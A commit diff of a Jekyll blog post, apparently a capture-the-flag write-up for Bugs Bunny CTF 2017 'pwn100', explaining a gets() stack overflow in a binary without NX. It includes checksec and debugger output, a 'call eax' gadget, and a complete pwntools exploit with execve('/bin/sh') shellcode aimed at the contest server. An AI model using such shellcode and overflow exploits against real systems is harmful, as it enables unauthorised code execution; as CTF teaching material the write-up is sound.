

Before and after one commit to sw1ss/sw1ss.github.io, a Jekyll site: the page built from _posts/2017-07-31-bugs_bunny_ctf_2k17-pwn100.md, in a window 1280 px wide and 1400 px high, scrolled down 654 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
corrected writeup

````diff
--- a/_posts/2017-07-31-bugs_bunny_ctf_2k17-pwn100.md
+++ b/_posts/2017-07-31-bugs_bunny_ctf_2k17-pwn100.md
@@ -1,118 +1,142 @@
+---
+title: pwn100
+category: bugs_bunny ctf 2k17
+author_member: muffinx
+show_comments: false
+---
 
+Binary type (file linux command):
 
-muffinx@muffinhouse:~/ctf/bugs_bunny_2017/pwn/pwn100$ file pwn100
+```
+file pwn100
 pwn100: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4eed8d04991f7b37ef1e309f1ecc983d7ff84333, not stripped
+```
 
+Binary security measurements (gdb-peda checksec):
 
+```
 gdb-peda$ checksec
 CANARY    : disabled
 FORTIFY   : disabled
 NX        : disabled
 PIE       : disabled
 RELRO     : Partial
+```
+
+The functionality is pretty straight forward:
+
+```cpp
+char *docopy()
+{
+  char s; // [sp+10h] [bp-18h]@1
+
+  return gets(&s);
+}
+
+int __cdecl main(int argc, const char **argv, const char **envp)
+{
+  docopy();
+  return 0;
+}
+```
+
+So just a basic stack overflow.
+The only function available to us is gets().
+Looking at the segments there is no wx(write/execute) segment which could be used to copy data to with gets.
+
+```
+.init         080482B0 080482D3 R . X . L dword 0001 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.plt          080482E0 08048320 R . X . L para  0002 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.text         08048320 080484C2 R . X . L para  0003 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.fini         080484C4 080484D8 R . X . L dword 0004 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.rodata       080484D8 080484E0 R . . . L dword 0005 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.eh_frame_hdr 080484E0 08048514 R . . . L dword 0006 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.eh_frame     08048514 080485E4 R . . . L dword 0007 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.init_array   08049F08 08049F0C R W . . L dword 0008 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.fini_array   08049F0C 08049F10 R W . . L dword 0009 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.jcr          08049F10 08049F14 R W . . L dword 000A public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.got          08049FFC 0804A000 R W . . L dword 000B public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.got.plt      0804A000 0804A018 R W . . L dword 000C public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.data         0804A018 0804A020 R W . . L dword 000D public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+.bss          0804A020 0804A024 R W . . L byte  000E public BSS   32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
+extern        0804A024 0804A044 ? ? ? . L para  000F public       32 FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF
+```
+
+So we have to execute our shellcode on the stack, which is actually possible since no NX is activated. So let's use some rop to jump into the stack.
+
+When we look at the registers before the ret, we can see that eax actually points to our input.
+
+```
+EAX: 0xffffd470 ('A' <repeats 12 times>, "a")
+EBX: 0xf7fa3000 --> 0x16fda8
+ECX: 0xfbad2288
+EDX: 0xf7fa4864 --> 0x0
+ESI: 0x0
+EDI: 0x0
+EBP: 0xffffd488 --> 0xffffd498 --> 0x0
+ESP: 0xffffd460 --> 0xffffd470 ('A' <repeats 12 times>, "a")
+EIP: 0x804842e (<docopy+17>:	leave)
+EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
+[-------------------------------------code-------------------------------------]
+   0x8048423 <docopy+6>:	lea    eax,[ebp-0x18]
+   0x8048426 <docopy+9>:	mov    DWORD PTR [esp],eax
+   0x8048429 <docopy+12>:	call   0x80482f0 <gets@plt>
+=> 0x804842e <docopy+17>:	leave
+```
+
+I found a ropgadget with that we can jump into our placed shellcode:
+
+```
+ropgadget --binary pwn100
+0x08048386 : call eax
+```
+
+Resulting in this exploit:
 
 
+```python
+#!/usr/bin/env python
 
-muffinx@muffinhouse:~/ctf/bugs_bunny_2017/pwn/pwn100$ ropgadget --binary pwn100
-Gadgets information
-============================================================
-0x080485bb : adc al, 0x41 ; ret
-0x080483bd : add al, 0x24 ; and byte ptr [eax - 0x2d00f7fc], ah ; leave ; ret
-0x08048380 : add al, 0x24 ; and byte ptr [eax - 0x2f00f7fc], ah ; leave ; ret
-0x080483e8 : add al, 8 ; add ecx, ecx ; ret
-0x08048384 : add al, 8 ; call eax
-0x080483c1 : add al, 8 ; call edx
-0x08048368 : add al, 8 ; cmp eax, 6 ; ja 0x8048377 ; ret
-0x0804843c : add byte ptr [eax], al ; add byte ptr [eax], al ; leave ; ret
-0x0804843d : add byte ptr [eax], al ; add cl, cl ; ret
-0x080482cc : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
-0x0804843e : add byte ptr [eax], al ; leave ; ret
-0x080485b8 : add cl, byte ptr [eax + 0xe] ; adc al, 0x41 ; ret
-0x0804843f : add cl, cl ; ret
-0x080485b4 : add eax, 0x2300e4e ; dec eax ; push cs ; adc al, 0x41 ; ret
-0x080483e5 : add eax, 0x804a020 ; add ecx, ecx ; ret
-0x080483a2 : add eax, edx ; sar eax, 1 ; jne 0x80483af ; ret
-0x080483ea : add ecx, ecx ; ret
-0x080484a9 : add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
-0x080482ce : add esp, 8 ; pop ebx ; ret
-0x0804840a : and al, 0x10 ; lahf ; add al, 8 ; call eax
-0x08048381 : and al, 0x20 ; mov al, byte ptr [0xd0ff0804] ; leave ; ret
-0x080483be : and al, 0x20 ; mov al, byte ptr [0xd2ff0804] ; leave ; ret
-0x08048428 : and al, 0xe8 ; ret 0xfffe
-0x080483ba : and al, 4 ; mov dword ptr [esp], 0x804a020 ; call edx
-0x080483bf : and byte ptr [eax - 0x2d00f7fc], ah ; leave ; ret
-0x08048382 : and byte ptr [eax - 0x2f00f7fc], ah ; leave ; ret
-0x080483e6 : and byte ptr [eax - 0x36fef7fc], ah ; ret
-0x08048366 : and byte ptr [eax - 0x77cf7fc], ah ; push es ; ja 0x8048379 ; ret
-0x080482b4 : call 0x8048356
-0x0804855b : call dword ptr [ebx]
-0x0804857b : call dword ptr [edx]
-0x08048386 : call eax
-0x080483c3 : call edx
-0x080483a5 : clc ; jne 0x80483ac ; ret
-0x0804836b : clc ; push es ; ja 0x8048374 ; ret
-0x0804836a : cmp eax, 6 ; ja 0x8048375 ; ret
-0x080485b9 : dec eax ; push cs ; adc al, 0x41 ; ret
-0x0804842d : dec ecx ; ret
-0x080485b5 : dec esi ; push cs ; xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret
-0x080484a8 : fild word ptr [ebx + 0x5e5b1cc4] ; pop edi ; pop ebp ; ret
-0x08048421 : in al, dx ; sub byte ptr [ebp + 0x489e845], cl ; and al, 0xe8 ; ret 0xfffe
-0x080485bc : inc ecx ; ret
-0x0804836d : ja 0x8048372 ; ret
-0x080483a6 : jne 0x80483ab ; ret
-0x080484a7 : jne 0x8048491 ; add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
-0x0804840c : lahf ; add al, 8 ; call eax
-0x08048388 : leave ; ret
-0x080484aa : les ebx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
-0x080482cf : les ecx, ptr [eax] ; pop ebx ; ret
-0x080483e7 : mov al, byte ptr [0xc9010804] ; ret
-0x08048383 : mov al, byte ptr [0xd0ff0804] ; leave ; ret
-0x080483c0 : mov al, byte ptr [0xd2ff0804] ; leave ; ret
-0x08048367 : mov al, byte ptr [0xf8830804] ; push es ; ja 0x8048378 ; ret
-0x080483e4 : mov byte ptr [0x804a020], 1 ; leave ; ret
-0x08048408 : mov dword ptr [esp], 0x8049f10 ; call eax
-0x0804837f : mov dword ptr [esp], 0x804a020 ; call eax
-0x080483bc : mov dword ptr [esp], 0x804a020 ; call edx
-0x0804843b : mov eax, 0 ; leave ; ret
-0x08048350 : mov ebx, dword ptr [esp] ; ret
-0x0804834f : nop ; mov ebx, dword ptr [esp] ; ret
-0x0804834d : nop ; nop ; mov ebx, dword ptr [esp] ; ret
-0x0804834b : nop ; nop ; nop ; mov ebx, dword ptr [esp] ; ret
-0x080484b8 : nop ; nop ; nop ; nop ; nop ; nop ; nop ; nop ; ret
-0x080484b9 : nop ; nop ; nop ; nop ; nop ; nop ; nop ; ret
-0x080484ba : nop ; nop ; nop ; nop ; nop ; nop ; ret
-0x080484bb : nop ; nop ; nop ; nop ; nop ; ret
-0x080484bc : nop ; nop ; nop ; nop ; ret
-0x080484bd : nop ; nop ; nop ; ret
-0x080484be : nop ; nop ; ret
-0x080484bf : nop ; ret
-0x08048385 : or bh, bh ; ror cl, 1 ; ret
-0x080483c2 : or bh, bh ; ror cl, cl ; ret
-0x08048369 : or byte ptr [ebx + 0x17706f8], al ; ret
-0x080483e9 : or byte ptr [ecx], al ; leave ; ret
-0x080483a1 : pop ds ; add eax, edx ; sar eax, 1 ; jne 0x80483b0 ; ret
-0x080484af : pop ebp ; ret
-0x080484ac : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
-0x080482d1 : pop ebx ; ret
-0x080484ae : pop edi ; pop ebp ; ret
-0x080484ad : pop esi ; pop edi ; pop ebp ; ret
-0x080485ba : push cs ; adc al, 0x41 ; ret
-0x080485b6 : push cs ; xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret
-0x08048455 : push ebx ; call 0x8048357
-0x0804836c : push es ; ja 0x8048373 ; ret
-0x08048454 : push esi ; push ebx ; call 0x8048358
-0x080483a3 : rcl cl, 1 ; clc ; jne 0x80483ae ; ret
-0x080482ba : ret
-0x0804839e : ret 0xeac1
-0x0804842a : ret 0xfffe
-0x08048387 : ror cl, 1 ; ret
-0x080483c4 : ror cl, cl ; ret
-0x080483a4 : sar eax, 1 ; jne 0x80483ad ; ret
-0x08048351 : sbb al, 0x24 ; ret
-0x080484ab : sbb al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
-0x0804839f : shr edx, 0x1f ; add eax, edx ; sar eax, 1 ; jne 0x80483b2 ; ret
-0x08048422 : sub byte ptr [ebp + 0x489e845], cl ; and al, 0xe8 ; ret 0xfffe
-0x080482b1 : sub esp, 8 ; call 0x8048359
-0x080482ca : xor al, byte ptr [eax] ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
-0x080485b7 : xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret
-0x080484cf : xor ebx, dword ptr [ebx] ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
+from pwn import *
+context(arch = 'i386', os = 'linux')
+
+#r = process('./pwn100')
+r = remote('54.153.19.139', 5252)
+
+#gdb.attach(r, '''
+#set follow-fork-mode child
+#break *0x0804842F
+#continue
+#''')
+
+payload = asm('xor eax,eax')
+payload += asm('xor ecx,ecx')
+payload += asm('xor edx,edx')
+payload += asm('xor esi,esi')
+payload += asm('mov eax,0x0b')
+payload += asm('lea ebx,[esp-8]')
+payload += asm('int 0x80')
+payload += '/bin/sh\x00'
+
+payload = ('\x90' * (28-len(payload))) + payload
+payload += p32(0x08048386) # call EAX
+
+
+r.sendline(payload)
+r.interactive()
+```
+
+As you can see I used the shellcoding features of pwntools to build a working shellcode.
+The "/bin/sh" string is at the end of the shellcode and the string pointer to it will be put
+into ebx by using:
+
+```
+lea ebx,[esp-8]
+```
+
+Finally we got a shell:
+
+```
+$ cat /home/pwn100/flag
+Bugs_Bunny{ohhhh_you_look_you_are_gooD_hacker_Maybe_Iknow_you:p}
+```
````
